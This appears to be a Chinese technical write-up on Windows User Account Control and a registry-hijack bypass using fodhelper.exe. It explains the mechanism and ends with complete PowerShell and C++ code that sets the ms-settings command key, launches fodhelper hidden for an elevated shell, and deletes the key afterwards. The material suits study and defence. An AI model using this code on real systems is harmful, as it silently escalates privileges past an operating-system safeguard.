





# 基于注册表劫持BypassUAC

## what is UAC？

UAC 是微软在 Windows Vista 以后版本引入的一种安全机制， UAC全称是User Account Control直译为“用户帐户控制”，是微软为提高系统安全而在Windows Vista中引入的新技术，VISTA以后的微软系统中都带有这个功能，如WIN7和WIN8系统中都有，UAC需要用户在执行一些可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前，提供权限或管理员‌密码。

## UAC的作用

通过 UAC，应用程序和任务可始终在非管理员帐户的安全上下文中运行，除非管理员特别授予管理员级别的系统访问权限。UAC 可以阻止未经授权的应用程序自动进行安装，并防止无意中更改系统设置。

* 流程如下: 


## UAC的实现

Windows操作系统中所有资源都有一个ACL\(Access Control List\)标识了拥有什么权限的用户/进程能够访问这个资源。 在开启了 UAC 之后，如果用户以管理员权限登陆，会生成两份访问令牌，一份是完整的管理员访问令牌（Full Access Token），一份是标准用户令牌\(Access Token\)。一般情况下会以标准用户权限启动 Explorer.exe 进程。在需要使用高完整性令牌时，会提示询问用户，如果用户同意，则继续进行操作。

## what is BypassUAC?

在触发UAC时，操作系统会创建一个名为consent.exe的进程，该进程通过白名单和用户选择来确定是否提升权限。 请求进程将要提升权限的进程的commandline和程序路径通过LPC\(Local Procedure Call\)接口传递给appinfo的RAiluanchAdminProcess函数，该函数首先会验证传入程序是否在白名单内同时判断是否弹出UAC窗口，这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程。 通常通过UAC的权限提升需要由用户确认，在不被用户发现的情况下静默的将程序的普通权限提升为管理员权限，从而使程序可以实现一些需要权限的操作被称之为BypassUac。

## 基于白名单的BypassUac

有一些系统程序是会直接获取管理员权限同时不出发UAC弹窗的，这类程序被称为白名单程序。 这些程序拥有一个manifest文件该文件本质上是一个XML文件用于标识该程序的配置属性。 拥有autoElevate属性程序和微软签名和白名单会被操作系统认为是可信的。会在启动时就静默提升权限。

## BypassUac实例分析-fodhelper.exe

* 实验环境:




使用微软官方提供的sigcheck工具可以检查程序的manifest标识的配置属性，可用于检查是否拥有autoElevate属性。

* 检查程序属性:




使用微软提供的procmon工具可以监控程序进行的注册表和文件操作。

* 使用过滤规则:



使用procmon监控fodhelper的行为数据发现，在启动过程中会查询注册表项HKCU:\Software\Classes\ms-settings\Shell\Open\command，发现路径不存在后继续查询，通常已shell\open\command命名的键值对存储的是可执行文件的路径，如果我们能写入这个键值对，那么在程序启动过程中我们会得到一个已高权限执行的可执行文件，由于该键值对属于HKCU，所以即使是普通用户也能编辑该键值对，那么现在我们就可以已高权限静默执行任意指定文件。

* 具体过程:



如果键值对HKCU:\Software\Classes\ms-settings\shell\open\command存在，fodhelper会查找HKCU:\Software\Classes\ms-settings\shell\open\command\DelegateExecute,若也存在到则读取HKCU:\Software\Classes\ms-settings\shell\open\command的值然后执行。

* 存在DelegateExecute:


* \shell\open\command存在值: 


* 编码实现: [https://github.com/supersalted/FodhelperBypassUAC](https://github.com/supersalted/FodhelperBypassUAC)
* powershell版本:

  ```text
  [String]$program = "cmd /c start powershell.exe"
  New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
  New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
  Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
  Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
  Start-Sleep 3
  Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
  ```

* c++版本:

```text
#include <windows.h>
#include <stdio.h>
#pragma comment(linker, "/subsystem:windows /ENTRY:mainCRTStartup")

int main(int argc, char* argv[]) {
    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFOA si = { 0 };
    HKEY hKey;

    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = SW_HIDE;
    RegCreateKeyA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings\\Shell\\open\\command", &hKey);
    RegSetValueExA(hKey, "", 0, REG_SZ, (LPBYTE)"cmd.exe", strlen("cmd.exe"));
    RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ, (LPBYTE)"", sizeof(""));
    CreateProcessA("C:\\Windows\\System32\\cmd.exe",(LPSTR)"/c C:\\Windows\\System32\\fodhelper.exe", NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);
    Sleep(5000);
    RegDeleteTreeA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings");

    return 0;
}
```

* 实现效果:



## LINKS







《windows黑客编程技术详解》 

《windows核心编程第五版》

